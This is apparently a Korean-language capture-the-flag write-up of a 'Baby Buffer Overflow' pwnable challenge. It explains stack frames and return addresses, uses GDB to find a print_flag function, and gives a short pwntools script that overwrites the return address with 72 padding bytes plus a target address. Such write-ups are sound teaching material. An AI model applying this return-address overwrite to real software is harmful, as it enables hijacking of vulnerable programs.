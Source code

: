 ```yaml
---
layout: post
category: [pwnable]
title: Baby Buffer Overflow
---
```


# 문제

![문제](/assets/img/2024-08-05-hawkis-baby-bof/problem.png)

리눅스 바이너리 파일을 분석해 취약점을 찾아 플래그를 확인하는 문제이다.

이 문제는 리눅스 환경이 필요한 문제이기 때문에, WSL 우분투 환경에서 문제 풀이를 진행했다.

# 버퍼 오버플로우란?

프로그램이 실행될 때, 데이터를 저장하기 위해 메모리 공간이 필요하다.   
C 프로그램에서 메모리는 일반적으로 5개의 주요 영역으로 나눌 수 있다.   
그 중 하나가 **스택(Stack)** 이다. 스택은 함수 호출 시 함수의 변수와 매개변수, 리턴 주소 등을 저장하는 공간이다.

![스택 구조와 스택 프레임](/assets/img/2024-08-05-hawkis-baby-bof/stack.png)

버퍼 오버플로우는 프로그램이 스택 공간에 할당된 크기보다 큰 데이터를 저장할 때 발생하는 취약점이다.   
이로 인해 인접한 메모리 영역이 덮어쓰여지거나 변조될 수 있으며, 의도하지 않은 코드 실행으로 이어질 수 있다.

프로그램의 실행 과정에서, 여러 함수들이 연속적으로 호출된다. 각 함수 호출 시, 함수 내부의 변수, 함수의 매개변수, 리턴 주소등의 정보는 스택 프레임에 저장되며, 스택 프레임은 함수가 호출될 때마다 생성된다.

프로그램이 함수를 실행하고 ``return`` 명령을 만날 때, ``Return Address`` 가 필요하다. ``Return Address`` 는 함수가 반환될 때 돌아갈 위치의 주소를 저장하고 있다.

버퍼 오버플로우 취약점을 이용해 스택 버퍼의 크기를 초과하여 인접한 영역까지 덮어쓸 수 있기 때문에, ``Return Address`` 를 변조하여 제어 흐름을 의도하지 않은 함수로 변경할 수 있다.

이 문제에서는 ``Return Address`` 를 ``print_flag`` 의 함수 주소로 덮어써 의도하지 않은 동작을 만들어 플래그를 획득할 수 있다.



## GDB 를 사용해 함수 목록 확인
``gdb ./baby_bof`` 명령어를 터미널에 입력해 문제 파일을 디버거로 열어준 후, ``info functions`` 명령어를 입력한다.

![functions](/assets/img/2024-08-05-hawkis-baby-bof/gdb_1.png)


```
0x0000000000401060  puts@plt
0x0000000000401070  printf@plt
0x0000000000401080  gets@plt

0x0000000000401176  print_flag
0x0000000000401190  vuln
0x00000000004011c4  main
```

``puts``, ``printf``, ``gets`` 함수들을 사용한 것을 확인할 수 있으며, ``print_flag``, ``vuln``, ``main`` 함수를 확인할 수 있다.

``vuln`` 함수를 ``disassemble`` 명령어를 사용해 디스어셈블링 해보았다.

![디스어셈블링 된 vuln함수](/assets/img/2024-08-05-hawkis-baby-bof/disassembled_vuln.png)

``0x0000000000401198`` 주소의 함수를 보면 ``%rsp`` 레지스터에 ``$0x40 (64바이트)`` 을 빼는 것을 확인할 수 있다.

```py
from pwn import *

context.arch = "amd64"

addr = 0x40117e

p = process('./baby_bof')

payload = b'A' * 64 + b'A' * 0x8 + p64(addr)

f = open('./payload.txt', 'wb')
f.write(payload)
f.close()
```

![FLAG](/assets/img/2024-08-05-hawkis-baby-bof/flag.png)